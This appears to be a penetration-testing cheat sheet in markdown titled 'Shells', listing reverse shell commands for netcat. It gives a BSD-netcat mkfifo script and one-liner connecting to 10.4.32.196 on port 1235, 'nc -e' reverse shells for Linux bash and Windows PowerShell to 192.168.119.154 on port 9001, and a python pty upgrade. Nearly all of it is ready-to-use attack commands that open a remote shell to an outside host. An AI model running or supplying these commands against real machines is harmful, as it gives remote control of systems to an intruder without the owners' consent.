 ```yaml
---
title: Shells
tags:
- snippet
- netcat
- shell
- linux
- windows
---
```


## netcat (bsd variant)

Requires `nc` to be using BSD version of netcat (most common variant)

### Full Length
```bash
#!/bin/bash
LHOST="${LHOST:-10.4.32.196}"
LPORT="${LPORT:-1235}"
rm /tmp/f
mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc $LHOST $LPORT > /tmp/f
```

### One Liner
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc "${LHOST:-10.4.32.196}" "${LPORT:-1235}">/tmp/f
```

## netcat (traditional)

For Linux
```bash
nc -e /bin/bash 192.168.119.154 9001
```

For Windows
```powershell
nc -e C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 192.168.119.154 9001
```

## Nice PTY

Not good for stealth, but lovely for usability

```shell
python3 -c "import pty; pty.spawn('/bin/bash')"
```
